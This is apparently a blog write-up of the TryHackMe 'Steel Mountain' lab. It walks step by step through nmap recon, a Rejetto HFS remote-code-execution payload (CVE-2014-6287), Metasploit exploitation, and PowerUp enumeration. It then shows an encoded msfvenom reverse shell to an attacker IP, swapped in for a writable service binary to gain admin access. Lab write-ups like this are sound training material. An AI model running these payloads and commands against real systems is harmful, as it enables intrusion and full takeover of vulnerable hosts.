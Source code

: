 ```yaml
---
layout: md
title: TryHackMe Steelmountain room
description: 
tags: ['security', 'tryhackme']
terms: ['linux', 'security', 'thm']
icon: shield-exclamation
---
```


{% include project-headers.html %}

Attacking a Windows based machine.

Includes:
- Recon
  - nmap
  - web apps
  - searchsploit
- Exploit
  - metasploit
- Privilege esculation
  - Enumeration
  - Misconfiguration & exploiting services
  - msfvenom

#### Nmap

Use nmap to scan windows machine. `-Pn` is specified because windows was ignoring icmp requests.

```bash
$> sudo nmap -sS -sV -Pn -vv 10.10.30.80 -oA nmap-results.txt
...

PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

#### Search for exploits

Find exploits related to the service running on port 8080, Rejetto Http File Server 2.3.

```bash
$> searchsploit "httpfileserver"
...

Rejetto HttpFileServer 2.3.x - Remote Command Execution (3) | windows/webapps/49125.py

$> searchsploit -p windows/webapps/49125.py
[CVE2014-6287](https://www.exploit-db.com/exploits/39161)
```

We can mirror the script shown in searchsploit and take a look at what it does. It just forms a url with a specific search query parameter that allows for remote code execution and makes a request to the service to perform that action.

```bash
$> searchsploit -m windows/webapps/49125.py
$> mv 49125.py command_exec.py

$> python3 command_exec.py 10.10.30.80 8080 whoami
http://10.10.30.80:8080/?search=%00{.+exec|whoami.}
```

The room tells us to use metasploit to perform the exploit though, maybe I will revisit scripting the exploit myself at a later date.

#### Metasploit

Using metasploit to exploit [`CVE2014-6287`](https://www.exploit-db.com/exploits/39161).

```bash
$> sudo msfconsole
msfconsole> search cve:2014-6287
...
0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msfconsole> use 0 
msfconsole> show options
...

msfconsole> set RHOSTS <ip>
msfconsole> set RPORT 8080
msfconsole> exploit

meterpreter> 
```
This gives us a meterpreter shell as bill now.

#### Enumeration

Performing enumeration to find possible privilege esculation attack vectors using [`PowerUp`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```bash
$> wget -c https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter> upload /opt/PowerUp.ps1

meterpreter> load powershell
meterpreter> powershell_shell
```

```powershell
PS >. .\PowerUp.ps1
PS > Invoke-AllChecks
...

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

This shows us a service called `AdvancedSystemCareService9` the our user can restart and also has write access to the directory, so we can override the existing executable with our own.

#### `msfvenom` Reverse shell

Creating the reverse shell exe
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=10.9.7.128 LPORT=4444 -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Create a listener
```bash
$> nc -lvnp 4444
```

Upload and execute as a service
```bash
meterpreter> upload /opt/msfvenom_reverse_shell.exe
meterpreter> powershell_shell

PS> net stop AdvancedSystemCareService9
PS> cp .\msfvenom_reverse_shell.exe 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'

PS> net start AdvancedSystemCareService9
```

And we have an admin shell via our netcat listener